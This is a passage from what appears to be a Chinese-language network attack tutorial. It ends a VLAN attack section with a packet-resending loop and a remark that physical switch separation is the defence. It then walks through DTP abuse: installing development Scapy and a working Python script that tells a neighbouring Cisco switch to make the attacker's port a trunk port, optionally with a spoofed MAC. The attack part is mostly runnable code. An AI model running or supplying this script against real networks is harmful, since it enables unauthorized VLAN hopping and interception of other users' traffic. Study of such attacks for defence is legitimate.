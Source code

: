 ```

while True:
        sendp(packet, iface=iface)
        time.sleep(10)

```

幸运的是，防御这种类型的`VLAN`攻击并没有那么复杂：如果你真的想分离你的网络，只需要使用物理划分的交换机！

0x08 DTP Abusing
=====

`DTP`（动态中继协议）是一种由思科发明的专有协议，用于如果一个端口是`trunk`端口，则交换机之间可以动态地交流。`Trunk`端口通常用于互连交换机和路由器，以便共享一些或所有已知的`VLAN`。

为了能够执行下面的代码，你需要安装`Scapy`的开发版本。同时为了`check out`出源，请先安装`Mercurial`，然后键入以下命令来克隆`Scapy repository`。

```
hg clone http://hg.secdev.org/scapy scapy

```

如果你想跟踪`Scapy`的最新版本，你只需要时不时地更新`checkout`。

```
cd scapy
hg pull

```

现在你可以将旧版本的`Scapy`变成最新版的了。

```
pip uninstall Scapy
cd scapy
python setup.py install

```

多亏了`DTP`协议，和它完全忽视任何一种安全的属性，我们现在就可以发送一个动态可取包到每一个启用DTP的思科设备，并要求它将我们的端口转变为`trunk`端口。

```
#!/usr/bin/python    

import sys
from scapy.layers.l2 import Dot3 , LLC, SNAP
from scapy.contrib.dtp import *    

if len(sys.argv) < 2:
        print sys.argv[0] + " <dev>"
        sys.exit()    

negotiate_trunk(iface=sys.argv[1])

```

作为一个可选参数，你可以设置欺骗相邻交换机的`MAC`地址，如果没有设置，则会自动生成一个随机值。
